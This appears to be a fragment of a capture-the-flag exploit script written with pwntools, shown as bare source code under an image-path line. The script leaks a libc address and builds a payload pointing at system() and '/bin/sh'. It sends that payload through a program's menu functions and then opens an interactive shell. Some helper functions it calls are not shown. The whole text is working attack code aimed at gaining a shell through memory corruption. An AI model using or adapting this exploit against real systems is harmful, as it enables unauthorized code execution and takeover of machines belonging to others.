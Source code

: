```python

report(2)
ru(": ")

libc_base = u64(r(6).ljust(8, b'\x00')) - 0x60770
leak("libc_base", libc_base)

system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh\x00'))
payload = p64(system) + p64(0) + p64(binsh)
add(1, payload)
add(1, payload)

add(1, payload)
report(1)

p.interactive()
```